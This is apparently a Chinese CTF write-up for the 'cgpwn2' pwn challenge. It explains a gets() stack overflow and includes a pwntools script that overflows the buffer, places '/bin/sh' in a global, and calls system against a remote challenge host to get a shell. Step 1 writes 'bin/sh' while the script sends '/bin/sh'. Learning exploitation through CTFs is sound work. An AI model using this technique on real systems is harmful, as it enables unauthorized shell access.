

# wp

题目 cgpwn2

```c
char *hello()
{
  ...
  puts("please tell me your name");
  fgets(name, 50, stdin);
  puts("hello,you can leave some message here:");
  return gets(&s);
}
```



# 0x02分析利用

通过栈溢出漏洞，调用system函数，同时在name中写入"/bin/sh"，把参数地址设置为name的首地址，就可以getshell了！

1. 输入name值为 "bin/sh"
2. s长度: 双击查看长度 为 0x26+4 => 42
3. system地址: 在左侧按Ctrl+E看，或者双击system按空格看地址。
4. 查看name地址, 双击name查看


# 0x03攻击

```python
from pwn import *
context.log_level = 'debug'

io = remote('124.126.19.106', 39551)
elf = ELF('./cgpwn2')

sys_addr = elf.symbols["system"]

io.recvuntil("your name")
io.sendline("/bin/sh")

bin_addr = 0x0804A080
payload = flat('a'*(0x26+4), sys_addr,1, bin_addr)
io.recvline()
io.sendline(payload)
io.interactive()
io.close()

```

